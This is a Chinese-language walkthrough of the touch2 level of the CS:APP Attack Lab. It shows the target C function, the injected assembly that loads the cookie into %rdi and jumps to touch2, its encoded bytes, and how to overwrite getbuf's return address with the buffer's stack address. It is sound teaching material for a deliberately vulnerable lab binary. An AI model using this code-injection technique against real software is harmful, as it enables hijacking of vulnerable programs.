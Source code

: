 注意地址需要用小端法书写（在第二章中有提到 x86-64 的机器都是用小端法）

### touch2

```c
void touch2(unsigned val) {
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

这里的 `cookie` 在解压出的文件 `cookie.txt` 已经给出，于是，我们需要的就是在调用 `touch2` 时，传入一个参数 `val` 使其与 `cookie` 相等。

我们将此数值传递给寄存器 `%rdi`，然后将返回地址修改为 `touch2` 的入口地址即可，但由于我们只能使用 `ret` 来转移控制权，因此我们需要兜个圈子来达到这一目的。

> 注意到，从 `stdin` 中得到的字符串，存储在函数 `getbuf` 中的 `%rsp` 所指向的内存中

所以我们可以：

1. 将移交命令写入缓冲区 `buf` 中
2. 将返回地址修改为 `%rsp` 的值

这样，在 `ret` 后，`pc` 所拿到的地址就是缓冲区的地址，就可以执行我们实现写入的指令了。

指令可以写为：

```asm
movq $0x59b997fa, %rdi
push $0x4017ec
retq
```

注意到这里，我们使用 `push` 与 `ret` 来完成控制移交，这里的 `push` 其实等价于：

```asm
subl $4, %rsp
movq $0x4017ec, (%rsp)
```

而 `ret` 等价于：

```asm
movq (%rsp), %rip
addl $4, %rsp
```

这样，我们通过 `gcc -c func.s` 与 `objdump -d func.o` 后，可以得到指令序列：

`48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3` 显然不够 $40$ 字节，剩下的按 0 补即可。

第二步，我们需要将 `getbuf` 函数的返回地址更改为 `%rsp` 的值也就是栈顶，通过 `gdb` 我们可以得到：

![image.png](https://virgil-civil-1311056353.cos.ap-shanghai.myqcloud.com/img/20231002173727.png)
